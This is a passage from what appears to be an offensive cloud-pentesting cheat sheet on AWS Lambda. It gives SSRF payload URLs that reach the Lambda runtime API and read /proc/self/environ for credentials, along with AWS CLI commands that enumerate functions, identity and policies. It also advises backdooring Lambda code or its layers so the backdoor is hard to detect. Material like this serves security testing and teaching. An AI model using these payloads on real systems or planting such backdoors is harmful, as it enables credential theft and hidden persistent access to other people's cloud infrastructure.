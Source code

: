 ```
https://apigateway/prod/example?url=http://localhost:9001/2018-06-01/runtime/invocation/next
```

### Getting credentials using SSRF and wrappers

```
https://apigateway/prod/system?cmd=file:///proc/self/environ
```

### Getting credentials from lambda environment variables (cli)

```
aws lambda get-function --function-name NAME
```

* It's important to enumerate the functions first with `aws lambda list-functions`

## Persistence
* If the user has sufficient rights in the lambda function, it's possible to download the source code, add a backdoor to it and upload. Every time the lambda executes, the malicious code will also execute.
* Always try to update the code of layers (dependencies) instead of the actual lambda code, this way our backdoor will be difficult to detect.

### Checking which user is executing  

```
aws sts get-caller-identity
```

### Checking all managed policies attached to the user

```
aws iam list-attached-user-policies --user-name user_name
```

### Checking informations about a specific policy

```
aws iam get-policy-version --policy-arn arn --version-id ID
```

### Listing all lambda functions

```
aws lambda list-functions --region region
```

### Listing information about the specified lambda

```
aws lambda get-function --function-name name
```
